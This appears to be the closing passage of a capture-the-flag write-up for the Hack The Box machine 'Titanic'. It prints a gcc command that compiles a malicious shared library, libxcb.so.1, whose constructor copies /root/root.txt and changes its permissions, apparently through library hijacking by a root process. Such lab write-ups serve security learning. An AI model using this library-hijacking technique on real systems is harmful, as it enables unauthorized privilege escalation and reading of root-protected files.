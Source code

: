 From identify_images.sh we know that the directory we need is /opt/app/static/assets/images/. To retrieve `root.txt`, I created a shared library that copies `/root/root.txt` and modifies its permissions.

```c++
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cp /root/root.txt root.txt; chmod 754 root.txt");
    exit(0);
}
EOF
```

After few seconds, `root.txt` will appear in the directory.

![Root Flag](/assets/images/writeups/Titanic-HTB/23.png)


![Machine Pwned](/assets/images/writeups/Titanic-HTB/Pwned.png)
